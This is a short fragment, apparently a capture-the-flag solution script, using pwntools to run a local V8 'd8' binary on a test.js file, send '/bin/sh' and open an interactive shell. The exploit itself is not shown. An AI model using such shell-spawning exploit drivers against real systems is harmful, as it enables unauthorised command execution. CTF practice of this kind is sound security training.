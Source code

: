 ```
// solve.py
from pwn import *

sh = process(['../challenge/d8', './test.js'])
sh.sendlineafter(b"SEND", b'/bin/sh\x00')
sh.interactive()
```